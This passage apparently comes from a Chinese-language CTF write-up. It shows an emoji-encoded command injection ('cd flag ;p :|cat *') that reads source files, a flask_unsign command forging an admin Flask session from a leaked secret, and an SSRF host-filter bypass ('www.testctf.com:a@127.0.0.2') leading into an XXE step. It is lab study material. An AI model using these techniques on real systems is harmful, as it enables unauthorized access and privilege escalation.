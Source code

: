 			          "😇": "O:)",
			          "🥳": ":D",
			          "🥺": ":'(",
			          "🤡": ":o)",
			          "🤠": "Y)",
			          "🤥": ":L",
			          "🐶": "dog",
			          "🐱": "cat",  
			          "🐭": "mouse",
			          "🐰": "rabbit",
			          "🦊": "fox",
			          "🐷": "pig",
			          "🐽": "pig nose",
			          "🐸": "frog",
			          "🐒": "monkey",
			          "🐔": "chicken",
			          "🐧": "penguin",
			          "🐦": "bird",
			          "🚗": "car",
			          "🚕": "taxi",
			          "🚁": "helicopter",
			          "🛶": "canoe",
			          "⛵": "sailboat",
			          "🚤": "speedboat",
			          "🛳️": "passenger ship",
			          "⛴️": "ferry",
			          "🛥️": "motor boat",
			          "🚢": "ship",
			          "👶": "baby",
			          "💿": "CD",
			          "📀": "DVD",
			          "📱": "phone",
			          "💻": "laptop",
			          "⏰": "alarm clock",
			          "🕰️": "mantelpiece clock",
			          "⌚": "watch",
			          "📡": "satellite antenna",
			          "🔋": "battery",
			          "🔌": "plug",
			          "🚩": "flag",
			          "⭐": "*",
			          "✖️": "×",
			          "➗": "÷",
			          "flag": "flag.php",
			  }
			  ```
		- `💿 🚩😜 😐🐱 ⭐`就是`cd flag ;p :|cat *`可以读`flag`文件夹下所有文件，^^拿到源代码^^
- # 伪造flask session
	- 源代码里有flask session的secret
	- 用`flask_unsign`对着源代码伪造flask sesison
		- ```shell
		  python -m flask_unsign -s -c "{'csrf_token': 'd383f3f6a04205f11961176b79d9cb435cca7193', 'role': 'admin'}" --secret '36f8efbea152e50b23290e0ed707b4b0'
		  eyJjc3JmX3Rva2VuIjoiZDM4M2YzZjZhMDQyMDVmMTE5NjExNzZiNzlkOWNiNDM1Y2NhNzE5MyIsInJvbGUiOiJhZG1pbiJ9.ZyCbnw.aDTbVLIpWBVW7niFNMgb7OI--EM
		  ```
- # SSRF+XXE
	- 首先绕ssrf
		- ssrf需要域名里有`www.testctf.com`，而且不能含有`127.0.0.1`
			- 用`www.testctf.com:a`将域名变成用户名
			- 用`127.0.0.2`代替`127.0.0.1`
		- 最后填入的域名为`www.testctf.com:a@127.0.0.2`
	- 然后做xxe
		- 发现这个文件上传可以触发php端读取xml文件